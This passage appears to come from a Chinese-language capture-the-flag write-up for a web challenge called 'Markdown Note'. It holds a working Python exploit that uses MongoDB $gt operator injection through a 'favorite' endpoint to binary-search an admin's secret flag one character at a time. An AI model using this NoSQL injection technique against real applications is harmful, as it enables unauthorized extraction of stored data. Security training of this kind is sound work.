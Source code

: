 更多語法可參考：https://www.mongodb.com/docs/manual/reference/operator/query/

透過這樣可以撰寫二分搜 payload 把 flag 掃出來

```python
import requests
import uuid
import string

url = "http://10.99.210.103:8019/"

username = str(uuid.uuid4())
password = str(uuid.uuid4())

s = requests.Session()

s.post(url + "register", json={"username": username, "password": password})
s.post(url + "login", json={"username": username, "password": password})

words = sorted(string.printable)

del words[words.index("|")]
print(words)
flag = ""

while not flag.endswith("}"):
    lb = 0
    rb = len(words)
    while lb + 1 < rb:
        mid = (lb + rb) // 2
        payload = {
            "history_id": {
                "username": "admin",
                "generated_payload": {"$gt": f"{flag}{words[mid]}"},
            }
        }
        r = s.post(url + "favorite", json=payload)
        if "History not found" not in r.text:
            lb = mid
        else:
            rb = mid
    flag += words[lb]

    print(flag)

print(flag)
```

## 📒 Markdown Note

Category: Web
Solves: 3/12
